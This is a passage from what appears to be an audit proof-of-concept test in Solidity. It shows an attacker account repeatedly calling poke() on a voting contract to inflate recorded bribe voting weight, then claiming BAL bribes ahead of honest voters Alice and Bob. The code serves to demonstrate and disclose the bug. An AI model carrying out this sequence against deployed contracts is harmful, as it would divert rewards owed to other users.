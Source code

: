 ```solidity
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        hevm.prank(attacker);
        voter.vote(tokenId1, pools, weights, 0);
        console2.log("totalVoting after vote(): %", IBribe(bribeAddress).totalVoting());
        console2.log("Call voter poke()"); 
                hevm.startPrank(attacker);
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
        hevm.stopPrank();

        hevm.prank(Alice);
        voter.vote(tokenId2, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId3, pools, weights, 0);

        uint256 earnedBribes0 = IBribe(bribeAddress).earned(bal, tokenId1);
        assertEq(earnedBribes0, 0, "no bribes should be earned yet"); 
        console2.log("earnedBribes0", earnedBribes0); 

        earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

        earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3);

        console2.log("Fast forward 1 epoch"); 
        hevm.warp(newEpoch()); 
        //voter.distribute();
        hevm.startPrank(attacker);
        voter.poke(tokenId1);
        hevm.stopPrank();

        uint256 earnedBribes1 = IBribe(bribeAddress).earned(bal, tokenId1); 
        console2.log("earnedBribes1", earnedBribes1); 

        hevm.prank(attacker);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("Bal balance of attacker: %s", IERC20(bal).balanceOf(attacker)); 
        
        earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

        earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3);        

        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId2);
        console2.log("Bal balance of Alice: %s", IERC20(bal).balanceOf(Alice)); 
        
```